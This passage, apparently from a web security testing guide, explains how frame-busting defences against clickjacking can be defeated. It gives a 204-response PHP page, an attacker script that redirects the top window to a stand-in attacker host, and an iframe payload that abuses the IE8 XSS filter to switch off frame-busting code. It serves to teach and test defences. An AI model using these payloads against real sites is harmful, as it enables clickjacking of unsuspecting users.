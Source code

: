 ```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

Attacker's Page:

```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

## XSS Filter

### IE8 XSS filter

This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request's parameters.

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Attacker View:

```html
<iframe src=”http://target site/?param=<script>if”>
```

### Chrome 4.0 XSSAuditor filter

It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.

